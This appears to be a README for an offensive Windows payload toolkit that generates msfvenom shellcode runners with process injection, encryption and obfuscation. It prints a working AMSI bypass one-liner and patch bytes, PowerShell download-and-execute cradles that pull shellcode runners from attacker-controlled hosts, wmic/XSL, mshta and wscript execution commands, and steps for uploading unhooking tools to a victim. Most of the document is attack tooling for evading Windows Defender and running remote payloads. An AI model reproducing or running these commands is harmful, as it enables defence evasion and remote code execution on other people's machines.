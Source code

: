 # Description

## Usage

### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Example
When payload is generated with name shellcode_runner_assembly_FlsAlloc_marshal.exe, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).
--
### Payload execution

**[+] Triple DES [+]**

The 3DES payloads are located under payloads/3DES/ directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.
```cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 
```cmd> des_decryptor_embedded.exe```
--
**[+] AMSI Bypass [+]**
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.
```$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

Execute AMSI Shellcode runner
``` powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); ``` 

#### Method 2
To unhook AMSI, I've used the project by jfmaes - AmsiHooker (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload unhook_amsi.exe and MinHook.NET.dll to victim. (Files located under payloads/AMSI/)
2. unhook_amsi.exe http://<KALI>/shellcode_runner.exe

--
 **[+] Executing .XSL, .JS, .HTA [+]**

Under directory payloads/DotNetToJScript/, you find three shellcode ruuners that generated with DotNetToJScript (https://github.com/tyranid/DotNetToJScript). 

Executing .XSL shellcode runner
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

Executing .HTA shellcode runner
```
mshta c:\users\public\shellcode_runner.hta
```

Executing .JS shellcode runner
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


**[+] ConfuserX + Net-Obfuscator [+]**

During my tests, I noticed that Windows Defender could detect my payloads genereted by ConfuserEx (https://github.com/yck1509/ConfuserEx). For this reason, I combined ConfuserEx + Net-Obfuscator (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under payloads/XOR/ and payloads/Caesar/ directories, feed the ConfuserEx tool and subsequently the new obfuscated binaries are imported to Net-Obfuscator. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

Example 1 - Execution of 'payloads/Caesar/shellcode_runner_assembly_numa.exe' Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```

